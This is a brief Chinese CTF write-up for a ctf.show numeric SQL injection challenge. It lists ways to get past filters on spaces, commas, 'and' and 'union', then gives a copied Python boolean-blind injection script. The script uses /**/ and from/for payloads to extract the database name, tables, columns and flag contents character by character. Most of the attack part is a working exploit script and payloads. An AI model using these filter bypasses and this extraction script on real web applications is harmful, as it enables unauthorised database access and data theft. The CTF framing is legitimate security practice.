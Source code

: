 #SQL注入 
SQL 注入漏洞, 注入点是数值型, 注入类型推荐使用布尔盲注,此关卡过滤了空格,逗号,and,union等关键字, 
1. 过滤空格, 可以使用括号() 或者注释`/**/` 绕过
2. 过滤and, 可以使用or替代
3. 过滤union, 可以用盲注替代联合注入
4. 过滤逗号, 可以使用特殊语法绕过, 比如:substr(database(),1,1) 可以用substr(database() from 1 for 1)来代替

抄得一个脚本
```
import requests
 
url = 'http://53aab0c2-b451-4910-a1e0-f15fd9e64b2a.challenge.ctf.show:8080/index.php?id=-1/**/or/**/'
name = ''
 
# 循环45次( 循环次数按照返回的字符串长度自定义)
for i in range(1, 45):
    # 获取当前使用的数据库
    # payload = 'ascii(substr(database()from/**/%d/**/for/**/1))=%d'
    # 获取当前数据库的所有表
    # payload = 'ascii(substr((select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database())from/**/%d/**/for/**/1))=%d'
    # 获取flag表的字段
    # payload = 'ascii(substr((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name=0x666C6167)from/**/%d/**/for/**/1))=%d'
    # 获取flag表的数据
    payload = 'ascii(substr((select/**/flag/**/from/**/flag)from/**/%d/**/for/**/1))=%d'
    count = 0
    print('正在获取第 %d 个字符' % i)
    # 截取SQL查询结果的每个字符, 并判断字符内容
    for j in range(31, 128):
        result = requests.get(url + payload % (i, j))
 
        if 'If' in result.text:
            name += chr(j)
            print('数据库名/表名/字段名/数据: %s' % name)
            break
 
        # 如果某个字符不存在,则停止程序
        count += 1
        if count >= (128 - 31):
            exit()
```